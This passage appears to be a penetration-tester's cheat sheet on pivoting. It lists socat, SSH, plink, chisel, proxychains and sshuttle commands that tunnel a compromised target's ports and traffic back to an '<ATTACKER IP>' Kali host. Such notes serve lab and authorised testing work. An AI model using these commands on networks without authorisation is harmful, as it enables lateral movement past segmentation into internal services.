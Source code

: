 #### Then let it listen on our kali machine 
- so we can connect with our windows tools for example
```
socat tcp-l:<LISTENING PORT>,fork tcp:<TARGET IP TO SEND IT TO (FIRST HOP)>:<TARGET PORT>
```

### Remote port forwarding
- Forward local port of target back to our kali

#### SSH
- Will connect local port back to our kali. 
- Usefull for example when database server is running on localhost on target and you want to connect to it on your kali.
```
ssh -N -R <BIND_ADRESS>:<PORT>:127.0.0.1:<TARGET PORT> <USERNAME>@<ATTACKER IP>
```

#### Plink.exe
```
plink.exe <USER>@<IP> -R <ATTACKER PORT>:<TARGET IP>:<TARGET PORT>
```

### Proxychains
- Prepend ```proxychains``` command before every command to send through the proxychain.
- Change proxychains config to the correct port and protocol! ```vim /etc/proxychains.conf```
- Example: ```socks4		127.0.0.1 9000```

#### SSH
```
sudo ssh -N -D 127.0.0.1:9000 <username>@<IP>
```

#### Proxychains over hop
```
ssh -J <USER>@<FIRST HOP IP> -D 127.0.0.1:9000 <USER>@<SECOND IP>
```

#### Chisel
- https://github.com/jpillora/chisel
```
/opt/chisel/chisel server -p 443 --socks5 --reverse
./chisel.exe client <ATTACKER IP>:443 R:socks
```

#### Rpivot
- https://github.com/klsecservices/rpivot


### sshuttle
```
sshuttle -r <USERNAME>@<TARGET> <RANGE(s) TO TUNNEL> --ssh-cmd 'ssh -i /home/user/Offshore/id_rsa_root_nix01'
sshuttle -r <USERNAME>@<TARGET> <RANGE(s) TO TUNNEL>
```
